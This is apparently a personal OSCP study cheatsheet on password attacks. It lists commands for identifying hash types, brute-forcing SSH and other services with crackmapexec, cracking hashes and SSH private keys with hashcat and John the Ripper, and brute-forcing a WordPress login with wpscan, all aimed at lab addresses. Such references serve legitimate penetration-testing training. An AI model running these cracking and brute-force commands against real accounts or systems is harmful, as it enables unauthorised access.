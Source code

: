 ```yaml
---
title: Password Attacks
author: linatl
date: "2021-03-05 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Figuring out the kind of hash
```
> hashid -e hash.txt
> hash-identifier
```

###### Bruteforcing with Crackmapexec
```
> crackmapexec ssh 10.10.10.10 -u users.txt -p passwords.txt
Other protocols with crackmapexec: ldap,mssql,winrm,smb
```

###### Hashcat
```
> echo "$1$hash" > hash.txt
> hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

###### John
```
> echo "$1$hash" > hash.txt
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
> john hash.txt --show

cracking id_rsa key
python2.7 /usr/share/john/ssh2john.py ./id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

###### WPScan
```
wpscan --url http://10.10.10.10/wp/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames username
```

###### Other online tools
```
CyberChef (GHCQ)
https://github.com/gchq/CyberChef
```
